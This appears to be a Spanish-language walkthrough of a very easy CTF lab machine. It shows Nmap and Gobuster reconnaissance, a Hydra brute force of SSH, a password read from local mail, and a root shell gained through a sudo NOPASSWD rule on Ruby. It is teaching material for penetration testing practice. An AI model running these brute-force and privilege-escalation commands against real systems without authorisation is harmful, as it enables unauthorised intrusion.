OS
Ubuntu Linux (Docker)
Dificultad
Muy Fácil
Vector inicial
Fuerza bruta SSH
Escalada
Sudo Abuse / GTFOBins
Puertos
22 (SSH), 80 (HTTP)
Técnicas
Nmap, Gobuster, Hydra, Sudo
Reconocimiento
El primer paso en cualquier pentest es conocer la superficie de ataque. Utilizamos Nmap, el escáner de red más popular, para descubrir qué puertos están abiertos en la máquina objetivo y qué servicios corren detrás de ellos.
La flag -p- escanea todos los 65535 puertos TCP, -sS realiza un SYN stealth scan, -sC ejecuta scripts de detección por defecto, -sV detecta versiones, y -oN guarda el resultado en un archivo.
$ sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2 -oN escaneo
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2026-06-06 20:41:17 CEST for 7s
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
80/tcp open http syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)

Fig 1. Escaneo de puertos con Nmap — detectamos SSH (22) y HTTP (80) abiertos.
Enumeración
Con el puerto HTTP (80) abierto, revisamos la web. El título indica que no hay contenido, solo HTML vacío. Usamos Gobuster para descubrir archivos y directorios ocultos.
La flag -u especifica la URL, -w el diccionario, y -x las extensiones a buscar.
$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.8.2
[+] Url: http://172.17.0.2
[+] Method: GET
[+] Threads: 10
[+] Extensions: html,txt,php
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html (Status: 200) [Size: 74]
javascript (Status: 301) [Size: 313]
server-status (Status: 403) [Size: 275]
Progress: 830564 / 830564 (100.00%)
===============================================================
Finished
===============================================================

Fig 2. Gobuster solo encuentra index.html, javascript y server-status. No hay directorios ocultos.
La web está en blanco, así que inspeccionamos el código fuente con Ctrl+U. Es una técnica común en CTFs: los desarrolladores dejan pistas en comentarios HTML.

Fig 3. La web está completamente en blanco — solo carga index.html sin contenido visible.
🔍 HALLAZGO
En el código fuente (Ctrl+U) encontramos un comentario HTML escondido:
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
Dos usuarios potenciales: juan y camilo. Y hay un "correo" importante.

Fig 4. Comentario HTML oculto revelando usuarios juan y camilo.
Revisamos el archivo de escaneo para confirmar que SSH está abierto antes de intentar fuerza bruta:
$ cat escaneo
# Nmap 7.99 scan initiated Sat Jun 6 20:41:17 2026
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
80/tcp open http syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))

Fig 5. Revisamos el archivo de escaneo con cat escaneo para confirmar el puerto SSH (22).
Explotación
Con dos usuarios potenciales y SSH abierto, usamos Hydra para ataque de fuerza bruta. -l usuario fijo, -P diccionario rockyou.txt, -I ignora verificación de archivo.
$ hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak
[WARNING] Many SSH configurations limit the number of parallel tasks...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries...
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2 login: camilo password: password1
1 of 1 target successfully completed, 1 valid password found

Fig 6. Hydra encuentra la contraseña de camilo: password1.
Nos conectamos por SSH como camilo. Exportamos TERM=xterm para que la terminal funcione correctamente.
$ ssh camilo@172.17.0.2
** WARNING: connection is not using a post-quantum key exchange algorithm...
camilo@172.17.0.2's password:
$
$ export TERM=xterm

Fig 7. Conexión SSH exitosa como camilo.
Post-Explotación
Ya dentro como camilo, intentamos escalar privilegios. El comando sudo -l lista qué comandos puede ejecutar el usuario con privilegios de root.
$ sudo -l
[sudo] password for camilo:
Sorry, user camilo may not run sudo on ab43b6d8ed09.

Fig 8. sudo -l como camilo confirma que NO tiene permisos sudo.
Camilo no puede escalar. Recordemos el mensaje del código fuente: "De: Juan Para: Camilo, te he dejado un correo es importante...". Como ya somos camilo, hay un correo esperándonos.
En Linux, los correos locales se almacenan en /var/mail. Primero revisamos los usuarios del sistema en /home:
$ cd /home
$ ls
camilo juan pedro

Fig 9. /home revela tres usuarios: camilo, juan y pedro.
Ahora buscamos el correo en /var/mail. Navegamos hasta encontrar el correo de camilo:
$ cd /var/mail
$ ls
camilo
$ cd camilo
$ ls
correo.txt
$ cat correo.txt
Hola Camilo,
Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

Fig 10. Exploración de /var/mail → encontramos correo.txt con la contraseña de Juan: 2k84dicb.
Con la contraseña de juan, usamos su - juan para pivotar. su (switch user) cambia de usuario. La flag - simula un login completo.
$ su - juan
Password:
$ whoami
juan

Fig 11. su - juan con contraseña 2k84dicb → whoami confirma que somos juan.
Escalada de Privilegios
Como usuario juan, repetimos: sudo -l para ver qué comandos puede ejecutar como root.
$ sudo -l
Matching Defaults entries for juan on ab43b6d8ed09:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User juan may run the following commands on ab43b6d8ed09:
(ALL) NOPASSWD: /usr/bin/ruby
⚠️ VULNERABILIDAD — Sudo Misconfiguration
sudo -l revela que juan puede ejecutar /usr/bin/ruby como root con NOPASSWD. Esto es una configuración incorrecta: otorgar permisos sin contraseña a un binario interactivo permite escalar privilegios trivialmente.
Consultamos GTFOBins (gtfobins.github.io), un repositorio que documenta cómo abusar de binarios con permisos sudo. Para Ruby:
sudo ruby -e 'exec "/bin/bash"'
El parámetro -e ejecuta código Ruby inline. exec reemplaza el proceso Ruby con una shell bash, y como sudo la ejecuta como root, obtenemos shell root.
$ sudo ruby -e 'exec "/bin/bash"'
root@ab43b6d8ed09:~#
root@ab43b6d8ed09:~# whoami
root
root@ab43b6d8ed09:~# id
uid=0(root) gid=0(root) groups=0(root)

Fig 12. sudo -l muestra NOPASSWD: /usr/bin/ruby → escalamos con sudo ruby -e 'exec "/bin/bash"' → root@ab43b6d8ed09:~#
✅ RESUMEN DE LA MÁQUINA
1. Nmap descubre puertos 22 (SSH) y 80 (HTTP)
2. Gobuster confirma web vacía; Ctrl+U revela comentario HTML con usuarios juan y camilo
3. Revisamos cat escaneo para confirmar SSH abierto
4. Hydra encuentra camilo:password1
5. SSH como camilo
6. sudo -l falla (camilo sin permisos)
7. ls /home → usuarios: camilo, juan, pedro
8. /var/mail/camilo/correo.txt → contraseña de juan: 2k84dicb
9. su - juan con contraseña encontrada
10. sudo -l como juan → NOPASSWD: /usr/bin/ruby
11. sudo ruby -e 'exec "/bin/bash"' → ROOT
// GLOSARIO
Nmap: Escáner de red líder. Detecta puertos, servicios, versiones y OS. Flags: -p- (todos los puertos), -sS (SYN stealth), -sC (scripts), -sV (versiones), -oN (guardar).
Gobuster: Fuerza bruta de directorios en servidores web. Flags: dir (modo directorio), -u (URL), -w (wordlist), -x (extensiones).
Hydra: Fuerza bruta para múltiples protocolos (SSH, FTP, HTTP, etc.). Flags: -l (usuario), -P (diccionario), -I (ignorar existencia).
SSH: Secure Shell — acceso remoto cifrado. Puerto por defecto: 22.
sudo -l: Lista permisos sudo del usuario actual. Primer comando tras acceder para buscar escalada.
NOPASSWD: Permite ejecutar comandos como root sin contraseña. Vulnerable en binarios interactivos.
GTFOBins: Repositorio de técnicas para escalar privilegios abusando binarios con permisos sudo.
su - [usuario]: Cambia al usuario con login completo, cargando su entorno. La contraseña es la del usuario destino.
/var/mail: Directorio estándar en Linux para correos locales de usuarios del sistema.
Pivot: Moverse de un usuario comprometido a otro usando credenciales encontradas.